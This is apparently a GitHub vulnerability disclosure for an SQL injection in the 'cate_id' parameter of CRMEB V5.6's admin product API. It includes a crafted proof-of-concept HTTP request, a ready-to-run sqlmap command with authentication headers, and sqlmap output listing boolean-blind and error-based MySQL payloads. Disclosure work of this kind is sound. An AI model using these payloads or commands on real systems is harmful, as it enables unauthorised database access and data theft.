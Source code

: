 # CRMEB-V5.6-SQL-Injection
/adminapi/product/product interface GET cate_id parameters for SQL injection

Source code address：https://github.com/crmeb/CRMEB

Install the pagoda according to the official tutorial

Official install link: https://doc.crmeb.com/single_open/open_v54/19892

Log in with your account and password

Use the following poc; An exception was issued upon discovering an error in the database
--------------------------------------------------------------------------------------------------------------------------------------------
GET /adminapi/product/product?cate_id=%E9%8E%88%27%22%5C%28&is_gift=&limit=15&logistics=&page=1&price_s%5B%5D=&price_s%5B%5D=&sales_s%5B%5D=&sales_s%5B%5D=&spec_type=&stock_s%5B%5D=&stock_s%5B%5D=&store_name=&time=&type=1&vip_product=&virtual_type= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.9
Authori-Zation: Bearer eyJ0xxxxxx
Referer: 
Accept-Encoding: gzip


--------------------------------------------------------------------------------------------------------------------------------------------
Response result：
--------------------------------------------------------------------------------------------------------------------------------------------
{"status":400,"msg":"SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''\"\\() OR `cate_pid` IN (1,2,3,4,5,6,7,8,鎈'\"\\())  AND `is_show` = ?  AND `is_de' at line 1","data":[]}
--------------------------------------------------------------------------------------------------------------------------------------------
Run directly using sqlmap：


--------------------------------------------------------------------------------------------------------------------------------------------
sqlmap -u "http://xxxxx/adminapi/product/product?  cate_id=1&is_gift=&limit=15&logistics=&page=1&price_s%5B%5D=&price_s%5B%5D=&sales_s%5B%5D=&sales_s%5B%5D=&spec_type=&stock_s%5B%5D=&stock_s%5B%5D=&store_name=&time=&type=1&vip_product=&virtual_type=" -p cate_id --headers="Authori-Zation: Bearer eyJ0xxxx\nCookie: PHPSESSID=xxxx;   cb_lang=zh-cn" --batch --level=3 --risk=2 --threads=2 --timeout=10 --random-agent --dbms=mysql


--------------------------------------------------------------------------------------------------------------------------------------------
Result：

--------------------------------------------------------------------------------------------------------------------------------------------
GET parameter 'cate_id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 649 HTTP(s) requests:
---
Parameter: cate_id (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: cate_id=1 RLIKE (SELECT (CASE WHEN (1039=1039) THEN 1 ELSE 0x28 END))&is_gift=&limit=15&logistics=&page=1&price_s[]=&price_s[]=&sales_s[]=&sales_s[]=&spec_type=&stock_s[]=&stock_s[]=&store_name=&time=&type=1&vip_product=&virtual_type=

    Type: error-based
    Title: MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)
    Payload: cate_id=GTID_SUBSET(CONCAT(0x7170787671,(SELECT (ELT(5044=5044,1))),0x716a7a7071),5044)&is_gift=&limit=15&logistics=&page=1&price_s[]=&price_s[]=&sales_s[]=&sales_s[]=&spec_type=&stock_s[]=&stock_s[]=&store_name=&time=&type=1&vip_product=&virtual_type=
---
[09:19:14] [INFO] the back-end DBMS is MySQL
web application technology: Nginx
back-end DBMS: MySQL >= 5.6
[09:19:16] [INFO] fetched data logged to text files under '/Users/xxxx/.local/share/sqlmap/output/xxxxxxx'

--------------------------------------------------------------------------------------------------------------------------------------------











